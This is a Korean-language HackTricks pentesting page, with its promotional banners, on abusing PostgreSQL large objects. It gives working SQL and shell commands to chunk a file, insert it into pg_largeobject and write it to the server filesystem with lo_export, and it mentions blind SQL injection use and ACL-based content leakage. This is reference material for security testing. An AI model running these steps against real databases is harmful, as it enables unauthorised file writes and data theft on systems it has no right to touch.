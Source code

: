 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 저장소에 제출**하세요.

</details>

### PostgreSQL 대용량 객체

PostgreSQL은 이미지나 PDF 문서와 같은 대용량 데이터 유형을 저장하기 위해 `pg_largeobject` 테이블을 통해 액세스할 수 있는 **대용량 객체** 구조를 제공합니다. 이 접근 방식은 `COPY TO` 함수보다 우수한 성능을 제공하며, 데이터를 파일 시스템으로 **내보낼 수 있어 원본 파일의 정확한 복제본을 유지**할 수 있습니다.

이 테이블에 **완전한 파일을 저장**하기 위해서는 `pg_largeobject` 테이블에 개체(LOID로 식별)를 생성한 다음, 이 개체에 2KB 크기의 데이터 청크를 삽입해야 합니다. 이러한 청크는 정확히 2KB 크기여야 하며(마지막 청크는 예외일 수 있음), 내보내기 함수가 올바르게 작동하도록 해야 합니다.

바이너리 데이터를 **2KB 청크로 분할**하려면 다음 명령을 실행할 수 있습니다:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
각 파일을 Base64 또는 Hex로 인코딩하기 위해 아래 명령어를 사용할 수 있습니다:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**중요**: 이 프로세스를 자동화할 때, 2KB의 평문 바이트 청크를 보내도록 해야 합니다. 16진수로 인코딩된 파일은 크기가 두 배로 증가하기 때문에 청크 당 4KB의 데이터가 필요하며, Base64로 인코딩된 파일은 `ceil(n / 3) * 4`의 공식을 따릅니다.

디버깅 목적으로 대형 객체의 내용을 볼 수 있습니다.
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### `lo_creat` 및 Base64 사용

바이너리 데이터를 저장하기 위해 먼저 LOID를 생성합니다:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
정확한 제어가 필요한 상황에서는 Blind SQL Injection을 이용하는 경우, 고정된 LOID를 지정하기 위해 `lo_create`를 사용하는 것이 좋습니다.

데이터 청크는 다음과 같이 삽입될 수 있습니다:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
대용량 객체를 내보내고 사용 후에는 삭제할 수 있습니다:

```sql
SELECT lo_export(oid, '/path/to/export/file') FROM pg_largeobject_metadata WHERE loid = <loid>;
DELETE FROM pg_largeobject_metadata WHERE loid = <loid>;
```

Replace `<loid>` with the actual large object ID.
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### `lo_import` 및 Hex 사용

`lo_import` 함수는 큰 객체에 대한 LOID를 생성하고 지정하는 데 사용될 수 있습니다:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
다음은 객체 생성 후 데이터가 페이지 단위로 삽입되며, 각 청크가 2KB를 초과하지 않도록 보장됩니다:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
프로세스를 완료하기 위해 데이터가 내보내지고 대용량 객체가 삭제됩니다:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### 제한 사항

**큰 객체에는 ACL(액세스 제어 목록)**이 있을 수 있으며, 이는 사용자가 생성한 객체에 대한 액세스를 제한할 수 있습니다. 그러나 이전 객체는 허용되는 ACL을 가지고 있을 수 있으므로 콘텐츠 유출을 위해 여전히 접근할 수 있습니다.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
